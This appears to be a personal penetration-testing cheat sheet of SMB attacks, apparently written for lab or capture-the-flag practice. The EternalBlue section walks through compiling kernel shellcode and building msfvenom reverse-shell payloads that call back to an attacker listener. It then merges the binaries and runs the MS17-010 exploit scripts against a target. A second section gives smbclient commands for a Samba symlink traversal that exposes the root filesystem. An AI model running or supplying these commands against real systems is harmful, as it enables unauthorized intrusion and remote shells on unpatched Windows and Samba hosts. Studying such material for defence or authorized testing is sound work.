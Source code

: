## SMB

### EternalBlue

There are two ways of exploiting this, one where named pipes are accessible and one where they are not.  You will know if they are accessible because if you try to run the zzz exploit, you will get an error that says `Not found accessible named pipe` when none are there.

<u>With named pipes:</u>

1. Use the zzz exploit, which is the version easily found on Searchsploit or that can be found in the link for the exploit without named pipes.  This is simply executed, but requires mysmb.py in the same folder:

   ```bash
   python ~/opt/exploits/eternalblue/MS17-010/zzz_exploit.py 10.10.10.40
   ```

<u>Without named pipes:</u>

1. You must compile some kernel shellcode and create a payload, then combine them and send it as a payload, as described here: https://root4loot.com/post/eternalblue_manual_exploit/.  First clone this repository: 

   ```bash
   git clone https://github.com/worawit/MS17-010.git
   ```

2. Compile kernel shellcode:

   ```bash
   # x86
   nasm -f bin ~/opt/exploits/eternalblue/MS17-010/shellcode/eternalblue_kshellcode_x86.asm -o ./sc_x86_kernel.bin
   
   # x64
   nasm -f bin ~/opt/exploits/eternalblue/MS17-010/shellcode/eternalblue_kshellcode_x64.asm -o ./sc_x64_kernel.bin
   ```

3. Create a payload in raw format:

   ````bash
   # x86
   msfvenom -p windows/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x86 --format raw -o sc_x86_payload.bin
   
   # x64
   msfvenom -p windows/x64/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform windows -a x64 --format raw -o sc_x64_payload.bin
   ````

4. Combine the bin files together:

   ```bash
   # x86
   cat sc_x86_kernel.bin sc_x86_payload.bin > sc_x86.bin
   
   # x64
   cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin
   ```

5. OPTIONAL: You can also merge both the x86 and x64 binaries together to create an all-purpose binary as well.  One site suggested using different listening ports.

   ```bash
   python ~/opt/exploits/eternalblue/MS17-010/shellcode/eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin
   ```

6. Run the exploit using the created bin file from above:

   ```bash
   python ~/opt/exploits/eternalblue/MS17-010/eternalblue_exploit7.py 10.10.10.40 sc_x86.bin
   ```

### Symlink Traversal

Discussed here: https://www.exploit-db.com/exploits/33599

1. Set Library Path:

   ```bash
   export LD_LIBRARY_PATH="/home/coyote/opt/tools/samba_dir_traversal/lib:$LD_LIBRARY_PATH"
   ```

2. Connect with custom client, issuing symlink command:

   ```bash
   # Connect
   /home/coyote/opt/tools/samba_dir_traversal/bin/smbclient //10.11.1.136/Bob\ Share --option='client min protocol=NT1'
   # Issue symlink command
   symlink / rootfs
   
   /home/coyote/opt/tools/samba_dir_traversal/bin/smbclient //10.11.1.146/SusieShare
   ```

   